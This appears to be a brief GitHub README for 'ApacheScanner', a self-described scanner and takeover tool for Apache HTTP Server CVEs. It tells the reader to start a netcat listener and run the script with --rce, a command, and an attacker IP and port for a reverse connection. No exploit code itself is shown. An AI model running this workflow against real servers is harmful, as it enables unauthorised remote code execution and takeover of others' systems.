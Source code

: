 # ApacheScanner
Apache HTTP Server Scanner and takeover tool with all common CVE's of Apache HTTP Servers


run a netcat or whatever listener for the RCE 

To run this Script install the Required pip Modules and define your command by this: 

```python3 ApacheScanner.py -u http://serveriphere  --rce --cmd "your command here" --lhost <your attacker IP> --lport <Your listening port>``` 

```python3 ApacheScanner.py --h```  for help and to see all commands
